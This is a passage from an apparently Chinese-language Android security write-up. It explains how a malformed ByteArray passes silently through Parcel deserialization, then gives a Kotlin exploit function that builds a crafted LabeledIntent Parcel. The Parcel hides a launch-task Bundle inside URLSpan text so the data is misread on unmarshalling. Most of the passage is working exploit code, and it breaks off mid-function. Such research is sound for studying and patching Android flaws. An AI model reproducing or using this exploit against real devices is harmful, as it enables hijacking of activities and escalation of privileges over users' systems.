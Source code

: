 第 8 步中由于读取的 ByteArray 中包含了一个 binder 的位置 (前面说过，Parcel 的 mObjects 中记录了所有 binder 在 mData 中的偏移)， 过不了 `validateReadData`校验， 所以最后上层会读出来一个空的 ByteArray, 但是不会抛错，并且也消耗完了 Parcel 的整个数据，所以对我们的后续操作无影响

于是可以构造下面的利用代码，虽然烦琐，但是直观，其中几个 fixme 的部分是需要计算的长度

```kotlin
     fun contraption(): LabeledIntent {
        val intent = Parcel.obtain().apply {
          intentFor<LoginActivity>().setAction("hello").writeToParcel(this, 0)
        }

        val taskId = 218

        val tail = Parcel.obtain().apply {
          writeString(null) // mSourcePackage => resolvedType
          writeInt(0) // labelRes  => hdr

          writeInt(0) // kind1 => flags
          writeString8("AAA") // text => binder
          writeInt(11) // TextUtils.URL_SPAN => cookie.1

          run {
            writeInt(fixme(63)) // URLSpan.mURL text len => cookie.2

            // we don't have a valid type ( sb*| sh* ), so no stability is read
            // writeInt(65)  // ? => ?stability

            writeString(null) //  URLSpan.mURL.chars.01 => resultWho(null)
            writeInt(77) // URLSpan.mURL.chars.23 => requestCode
            writeInt(88) // URLSpan.mURL.chars.45 => flags
            writeInt(0) // URLSpan.mURL.chars.67 => profilerInfo(null)
            run {
              writeInt(1) // URLSpan.mURL.chars.89 => options != null

              writeInt(fixme(172)) //  URLSpan.mURL.chars.1.01  =>  back patch length
              writeInt(Const.BundleMagic)  // URLSpan.mURL.chars.1.23 => 'B' 'N' 'D' 'L'
              writeInt(2) // URLSpan.mURL.chars.1.45 => entry count

              // URLSpan.mURL.chars going on ...
              writeString("android.activity.launchTaskId") //  key 1
              writeValue(taskId) // value 1
              writeString("_") // key 2
              run {  // value 2
                writeInt(Const.ValByteArray) // VAL_BYTEARRAY
                writeInt(fixme(80)) // byte array length
                writeInt('@'.code) //  0 <-- byte array content start here
                writeInt(0) // <--- URLSpan.mURL.chars ends here with terminator
              }
            }

            // byte array content going on ...
            writeInt(1) // span.start
            writeInt(2) // span.end
            writeInt(3) // span.flags
            writeInt(0) // end flag
          }

          // byte array content going on ...
          writeInt(0) // Icon
        }

        val labeled = Parcel.obtain().apply {
          appendFrom(intent, 0, intent.dataSize())
          appendFrom(tail, 0, tail.dataSize())
        }
```